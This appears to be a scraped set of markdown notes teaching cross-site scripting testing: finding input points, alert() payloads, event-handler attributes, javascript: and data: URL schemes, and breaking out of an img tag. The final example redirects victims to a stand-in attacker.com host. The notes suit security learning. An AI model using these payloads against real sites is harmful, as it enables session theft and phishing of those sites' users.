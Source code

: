 #### Advanced attacks and training
https://www.offensive-security.com/awae-oswe/.

##### Step 1: Look for Input Opportunities

-Don’t limit yourself to text input fields (intercept with burp and modify parameters)
-Insert your custom string into every user-input opportunity you can find. (xss_by_user)
-Use ctrl+f to see where are the inputs that you had submitted


#### Step 2: Insert Payloads

###### Script alert
-Test the inputs with an `<script>alert('XSS ');</script>`

This kind of exploits only works on defenseless sites with old frameworks or in IoT
`Look for some IoT vulnerabilities https://github.com/OWASP/IoTGoat/.`

###### HTML elements

Inserting code into these attributes(if you can)
Or add a new attrribute(if you can)


```
<img onload=alert('The image has been loaded!') src="example.png">
```


Another way you can achieve XSS is through special URL schemes, like
javascript: and data:. The javascript: URL scheme allows you to execute
JavaScript code specified in the URL.

`javascript:alert('XSS')`

`data:<script>alert(XSS)</script>`  <--- you can code this (base64,xxl,url,etc)


The URL may sugest you something too

`https://example.com/upload_profile_pic?url=IMAGE_URL`

This creates a img on the html and adds the attribute source to that img

`<img src="IMAGE_URL"/>`


#### Closing Out HTML Tags

Original input
`<img src="USER_INPUT">`

Payload:

`"/><script>location="http://attacker.com";</script>`
Result:

`<img src=""/><script>location="http://attacker.com";</script>">`

